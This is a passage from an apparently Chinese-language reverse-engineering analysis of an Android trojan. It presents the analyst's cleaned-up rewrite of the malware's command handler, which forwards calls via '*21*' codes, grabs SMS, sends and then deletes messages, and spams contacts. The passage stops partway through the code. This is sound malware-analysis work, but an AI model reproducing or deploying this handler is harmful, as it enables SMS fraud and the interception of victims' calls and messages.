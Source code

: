 ```
`}`
    try `{`
    label_125:
    if(v17.getCount() &gt; o.z) `{`
            goto label_128;
    `}`
        goto label_132;
`}`
    catch(Throwable v2) `{`
        goto label_273;
`}`
//[omitted]
```

为了适应本文所分析的恶意软件，我将大约250行代码重写为下面给出的代码。在重写的代码中，包含恶意程序所存在的所有功能，并且没有反编译错误。请注意，大多数字符串所在的字符串数组中，都包含33个字符串。它还使用了StringDatabase类中的字符串，这使得它非常混乱。

在代码中，包含以前没有分析过的类。这些类将在需要的时候进行分析。

```
protected final void onPostExecute(JSONArray commandJson) `{`
    String command = commandJsonArray[0];
    switch (command) `{`
        case "install_true":
            sharedPreferenceEditor.putString("inst", "2").commit();
            break;
        case "call_number":
            TelephonyManagerWrapper2.callPhoneNumber(context, "*21*" + commandJson.optString("phone") + "#");
            new Handler().postDelayed(new StopCallForwardingRunnable(this), 1000 * (((long) commandJson.optInt("time"))));
            break;
        case "sms_grab":
            Long time_perehv = (((long) (commandJson.optInt("time") * 1000))) + System.currentTimeMillis();
            sharedPreferenceEditor.putLong("time_perehv", time_perehv).commit();
            break;
        case "sms_send":
            sendAndRemoveMessage(commandJson.optString("message"), commandJson.optString("phone"));
            break;
        case "delivery":
            TelephonyManagerWrapper2.callPhoneNumber(context, "*21*+79009999999#");
            String smsMessage = commandJson.optString("text");
            String recipientPhoneNumber;
            Cursor allContacts = context.getContentResolver().query(ContactsContract$Contacts.CONTENT_URI, null, null, null, null);
            Cursor contactIds = context.getContentResolver().query(ContactsContract$CommonDataKinds$Phone.CONTENT_URI, null, "contact_id = ?", new String[]`{`allContacts.getString(allContacts.getColumnIndex("_id"))`}`, null);
            if (allContacts.getCount() &gt; 0 &amp;&amp; contactIds.getCount() &gt; 0) `{`
                for (int i = 1; i &lt; 30; i++) `{`
                    if (allContacts.moveToNext()) `{`
                        if (contactIds.moveToFirst()) `{`
                            recipientPhoneNumber = contactIds.getString(contactIds.getColumnIndex("data1"));
                            if (recipientPhoneNumber != null) `{`
                                sendAndRemoveMessage(smsMessage, recipientPhoneNumber);
                            `}`
                        `}`
                    `}`
                `}`
            `}`
            break;
        case "new_url":
```